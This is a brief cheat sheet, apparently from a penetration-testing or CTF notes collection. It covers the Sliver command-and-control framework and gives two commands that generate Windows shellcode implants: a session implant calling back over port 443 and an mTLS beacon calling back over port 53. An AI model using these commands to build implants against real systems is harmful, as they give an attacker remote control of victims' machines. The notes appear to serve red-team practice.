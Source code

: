 # sliver c2
#plateform/linux #target/remote #cat/UTILS


## Generate a Session 
```
generate -m <ip>:443 -G -l -f shellcode --os windows -s /opt/CTFPacker/Linux
```


## Generate a Beacon 
```
generate beacon --mtls <ip>:53 --os windows --arch amd64 --format shellcode --save /opt/sliver/pain.raw
```
